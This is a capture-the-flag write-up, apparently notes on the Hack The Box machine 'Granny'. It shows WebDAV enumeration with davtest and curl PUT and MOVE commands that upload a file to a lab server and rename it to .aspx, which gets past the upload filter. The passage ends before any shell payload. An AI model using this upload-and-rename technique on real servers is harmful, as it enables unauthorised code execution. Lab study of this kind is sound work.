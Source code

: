 ![[Granny-02.png]]
##  WebDAV
Web Distributed Authoring and Versioning (WebDAV) is an HTTP extension designed to allow people to create and modify web sites using HTTP. It was originally started in 1996, when this didn’t seem like a terrible idea. I don’t see that often on recent HTB machines, but I did come across it in PWK/OSCP.

From the nmap http-webdav-scan output we know this site HTTP could use  OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH. Which PUT could be used to upload files. MOVE could be used renamed files.

## Davtest
I’ll use `davtest` to explore further, and it will show me what types of files can be uploaded, and if it can create a directory:

```bash
davtest -url http://10.10.10.15
```

![[Granny-03.png]]
Both ASP and ASPX are not allowed. However, TXT and HTML files are.

# Exploitation
Reference:
https://0xdf.gitlab.io/2019/03/06/htb-granny.html

## Upload test file

let's try put txt file to the website. 

```bash
echo 0xdf > test.txt
curl -X PUT http://10.10.10.15/df.txt -d @test.txt
curl http://10.10.10.15/df.txt
```

![[Granny-05.png]]

Cool! we uploaded txt file.

Remember that the PUT HTTP method was not the only method that was allowed. We also can use the MOVE method. The MOVE method not only can be used to change file locations on the web server, but it can also be used to rename files. Let’s try to upload an HTML file on the web server and then rename it to change the extension to an ASPX file.

```bash
curl -X MOVE --header 'Destination:http://10.10.10.15/df.aspx' 'http://10.10.10.15/df.txt'
curl http://10.10.10.15/df.aspx
```

![[Granny-07.png]]
